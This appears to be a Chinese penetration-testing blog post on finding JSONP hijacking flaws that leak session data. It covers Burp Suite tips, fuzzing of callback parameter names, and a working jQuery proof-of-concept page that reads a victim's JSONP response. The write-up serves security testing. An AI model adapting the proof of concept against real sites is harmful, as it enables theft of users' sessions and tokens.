


前言
jsop，其实很早以前就被人玩烂了，但是我一直没有重视，感觉顶多泄露点个人信息，直到这个星期，挖到一个jsonp泄露session的漏洞
这个星期测了个在线教育的站，域名有很多个，不同域名下的访问就会产生一个跨域的问题，跨域的解决方案一般有三种 CORS、postMessage和jsonp。这里jsonp的原理就不细讲了。
那个网站登陆页面在域名A,登陆认证的后端在域名B，当登陆成功之后域名A有时就会请求域名B接口获取session
其实原理没什么好讲的，讲这个主要是提醒自己不要小看一些漏洞，像jsonp劫持最多的危害就是泄露敏感信息，比如用户信息、token之类的。
jsonp原理
懒得写了，先占个坑以后补
挖掘jsonp劫持漏洞
有很多程序员在写接口的时候都会顺手写个jsonp的接口，可以先开着bp看一下功能点，看看是否有地方用了jsonp
快速寻找jsonp的接口
开着bp逛一圈，一般有jsonp的数据传输会在mimetype中显示为script，通过排序可以快速得找到

callback的值，就是jsonp回传回来的函数名

然后只要查看传输的数据中是否有敏感信息就可以了
寻找敏感的json数据
如果jsonp的接口没有敏感信息传输，json数据包中恰好有的话，我们可以尝试一下程序员是否有开发jsonp的格式，大多数程序员喜欢把jsonp的回传参数命名为callback
当然还有其他的可能，贴一份字典，直接用Intruder Fuzz一下试试：
1 | callback=attack |
漏洞证明
如果最后爆破成功的接口为http://47.98.109.141:5000/interface?callback=attack
返回的数据为attack({"value":1})
使用下面的poc
jsonp 填写回调参数的名字
jsonpcallback就是回调参数的值
alert的地方根据需要更改取值1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>jsonp劫持</title>
<script src="js/jquery.min.js"></script>
</head>
<body>
<script type="text/javascript">
$.ajax({
url:"http://xxx.com/interface",
dataType:"jsonp",
jsonp:"callback",
jsonpCallback:"attack",
success:function (data) {
alert(data.value)
}
})
</script>
</body>
</html>
如果能正常取到值，就说明漏洞存在了
漏洞利用的话就具体情况具体分析了，这里就不赘述了